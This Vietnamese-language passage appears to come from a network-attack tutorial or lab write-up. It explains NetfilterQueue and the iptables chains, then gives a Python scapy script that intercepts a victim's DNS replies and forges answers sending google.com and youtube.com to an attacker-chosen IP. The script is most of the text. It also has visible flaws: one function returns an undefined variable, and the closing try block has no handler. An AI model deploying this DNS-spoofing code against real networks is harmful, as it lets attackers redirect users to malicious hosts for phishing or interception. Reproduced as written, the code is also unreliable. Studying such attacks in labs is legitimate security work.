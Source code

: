 - vậy sau khi thiết lập rule bằng code python chúng ta có thể xóa toàn bộ bằng lệnh `iptables --flush`

![ảnh](https://hackmd.io/_uploads/ryG9pJvCp.png)

bậy giờ chúng ta sẽ xây dựng đoạn script để sửa đổi gói tin DNS khi các packets từ victim đến được card mạng của attacker và mình cần dùng:

- NetfilterQueue: NetfilterQueue là thư viện Python cung cấp quyền truy cập vào các gói khớp với quy tắc iptables trong Linux. Các gói phù hợp có thể được chấp nhận, loại bỏ, thay đổi hoặc đánh dấu.
- iptable (xem thêm về iptable <a href="https://wiki.matbao.net/kb/bao-mat-may-chu-linux-huong-dan-cau-hinh-iptables-can-ban/#2-tao-rule-iptables">tại đây</a>) có 3 chain:
  - **Forward chain** : lọc gói khi đi đến các server khác.
  - **Input chain** : lọc gói khi đi vào trong server.
  - **Output chain** : lọc gói khi ra khỏi server.

```python!
from scapy.all import *
from netfilterqueue import NetfilterQueue
import os


def process_packet(packet):
    scapy_packet = IP(packet.get_payload())
    if scapy_packet.haslayer(DNSRR):
        print("[Before]:", scapy_packet.summary())
        try:
            scapy_packet = modify_packet(scapy_packet)
        except IndexError:
            # not UDP packet, this can be IPerror/UDPerror packets
            pass
        print("[After ]:", scapy_packet.summary())
        packet.set_payload(bytes(scapy_packet))
    packet.accept()

def modify_packet(scapy_packet):
    # scapy_packet[Raw].load = scapy_packet[Raw].load.replace(b'flag', b'Helo')

    qname = scapy_packet[DNSQR].qname
    if qname not in dns_hosts:
        # if the website isn't in our record
        # we don't wanna modify that
        print("no modification:", qname)
        return packet
    scapy_packet[DNS].an = DNSRR(rrname=qname, rdata=dns_hosts[qname])
    scapy_packet[DNS].ancount = 1
    del scapy_packet[IP].len
    del scapy_packet[IP].chksum
    del scapy_packet[UDP].len
    del scapy_packet[UDP].chksum
    return scapy_packet

if __name__=='__main__':
    dns_hosts = {
    b"www.google.com.": "192.176.45.101",
    b"google.com.": "192.176.45.101",
    b"youtube.com.": "192.176.45.101"
    }
    try:
        if os.geteuid() != 0:
            exit("Run with root permission!")
        os.system('iptables -A INPUT -i wlan0 -j NFQUEUE --queue-num 0')
        queue = NetfilterQueue()
        queue.bind(0, process_packet)
        queue.run()
```